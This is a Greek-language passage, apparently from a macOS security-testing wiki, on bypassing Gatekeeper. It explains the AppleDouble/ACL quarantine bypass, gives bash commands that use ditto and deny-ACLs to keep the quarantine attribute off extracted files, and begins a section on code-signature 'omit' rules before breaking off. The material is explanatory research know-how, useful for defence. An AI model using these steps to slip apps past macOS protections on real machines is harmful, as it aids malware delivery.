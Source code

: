 **AppleDouble** μορφή αρχείου αντιγράφει ένα αρχείο συμπεριλαμβανομένων των ACEs του.

Στον [**κώδικα πηγής**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) είναι δυνατόν να δούμε ότι η κείμενη αναπαράσταση ACL που αποθηκεύεται μέσα στο xattr που ονομάζεται **`com.apple.acl.text`** θα οριστεί ως ACL στο αποσυμπιεσμένο αρχείο. Έτσι, αν συμπίεσες μια εφαρμογή σε ένα αρχείο zip με μορφή αρχείου **AppleDouble** με ένα ACL που αποτρέπει την εγγραφή άλλων xattrs σε αυτό... το xattr καραντίνας δεν ορίστηκε στην εφαρμογή:

Έλεγξε την [**αρχική αναφορά**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) για περισσότερες πληροφορίες.

Για να το αναπαραγάγουμε, πρώτα πρέπει να αποκτήσουμε τη σωστή συμβολοσειρά acl:
```bash
# Everything will be happening here
mkdir /tmp/temp_xattrs
cd /tmp/temp_xattrs

# Create a folder and a file with the acls and xattr
mkdir del
mkdir del/test_fold
echo test > del/test_fold/test_file
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold/test_file
ditto -c -k del test.zip

# uncomporess to get it back
ditto -x -k --rsrc test.zip .
ls -le test
```
(Note that even if this works the sandbox write the quarantine xattr before)

Not really needed but I leave it there just in case:

{% content-ref url="macos-xattr-acls-extra-stuff.md" %}
[macos-xattr-acls-extra-stuff.md](macos-xattr-acls-extra-stuff.md)
{% endcontent-ref %}

## Παράκαμψη Υπογραφών Κώδικα

Τα πακέτα περιέχουν το αρχείο **`_CodeSignature/CodeResources`** το οποίο περιέχει το **hash** κάθε μεμονωμένου **αρχείου** στο **πακέτο**. Σημειώστε ότι το hash του CodeResources είναι επίσης **ενσωματωμένο στο εκτελέσιμο**, οπότε δεν μπορούμε να ασχοληθούμε με αυτό.

Ωστόσο, υπάρχουν κάποια αρχεία των οποίων η υπογραφή δεν θα ελεγχθεί, αυτά έχουν το κλειδί omit στο plist, όπως:
```xml
<dict>
...
<key>rules</key>
<dict>
...
<key>^Resources/.*\.lproj/locversion.plist$</key>
<dict>
<key>omit</key>
<true/>
<key>weight</key>
<real>1100</real>
</dict>
...
</dict>
<key>rules2</key>
...
<key>^(.*/)?\.DS_Store$</key>
<dict>
<key>omit</key>
<true/>
<key>weight</key>
```